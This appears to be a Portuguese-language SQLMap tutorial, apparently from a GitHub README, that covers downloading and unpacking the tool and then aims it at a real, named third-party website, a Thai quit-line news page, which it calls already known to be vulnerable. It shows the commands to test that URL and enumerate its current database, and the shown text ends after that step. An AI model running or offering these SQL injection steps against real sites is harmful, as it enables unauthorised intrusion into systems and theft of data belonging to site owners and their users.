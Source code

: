 

#### Usando o SQLMap

Link para Download: 

https://codeload.github.com/sqlmapproject/sqlmap/legacy.tar.gz/master

Você fará o download de um arquivo com esse nome: 

```
sqlmapproject-sqlmap-0.9-4059-ge35c7fb.tar.gz
```

Descompactando:

```
$ tar -zxvf sqlmapproject-sqlmap-0.9-4059-ge35c7fb.tar.gz
```

Entrando no diretório gerado após a descompactação:

```
$ cd sqlmapproject-sqlmap-e35c7fb
```

Executando o SQLmap:

```
$ python sqlmap.py
```

Ele vai te retorna isso:

```
Usage: python sqlmap.py [options]
```

Vendo o help dele:

```
$ python sqlmap.py -h
```

Para verificar se um site está vulnerável, você poderá usar o parâmetro -u (de URL):

```
$ python sqlmap.py -u http://www.thailandquitline.or.th/news.php?id=1
```

Ele vai realizar uma série de testes. Antes de começar cada teste ele vai te perguntar se você quer ou não que ele faça, siga fazendo as sugestões dele. [Y/n] para Sim, [y/N] para não.

Como já sabemos muito bem que esse site está vulnerável, não precisamos disso.

Vamos agora determinar qual é o nome da database usada pelo site:

```
$ python sqlmap.py -u http://www.thailandquitline.or.th/news.php?id=1 --current-db -v 0
```

- Obs: O parâmetro -v 0 é legal para diminuir a "verbosidade" do sqlmap. Polui menos o shell.
- Obs²: Com a opção <code>--current-db</code> o sqlmap nos retornará o esperado nome da database. Isso é importante para o próximo passo, onde uma vez de posse do nome do banco, o sqlmap vai conseguir fazer as consultas ao SGDB de forma mais apropriada.
